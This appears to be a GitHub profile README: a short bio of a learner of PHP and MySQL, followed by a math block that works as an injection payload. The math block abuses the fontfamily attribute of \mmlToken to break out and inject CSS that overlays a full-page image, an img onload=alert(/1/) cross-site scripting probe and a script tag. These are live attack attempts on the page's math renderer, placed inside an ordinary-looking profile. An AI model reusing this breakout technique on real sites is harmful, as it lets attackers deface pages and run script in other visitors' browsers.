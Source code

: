 ### Hi there 👋
- 🔭 I’m currently working on some web projects
- 🌱 I’m currently learning PHP and MYSQL
- 🤔 I’m looking for help with html, css front-end code
- ⚡ Fun fact: Always online but not for the good reason
```math
\mmlToken{ms}[fontfamily="thxpewpew;background:color:red; z-index: -1; position: fixed; top: 0; left: 0; height: 100%; object-fit: cover; width: 100%; opacity: 0.7; background: url('https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true');"]{nowhere}
\mmlToken{ms}[fontfamily="thxpewpew;I'm in ur walls ;))"]{<YOOOO<></><img src='https://github.com/NotTrueFalse/NotTrueFalse/blob/main/Figaro-Temparia-1694x847.jpeg?raw=true' onload=alert(/1/)>}
\mmlToken{
        <script>
            ms(2018);
        </script>
    }[fontfamily="imnothere;11111111111111111111111111111\"'><a></a>"]{demo}
```

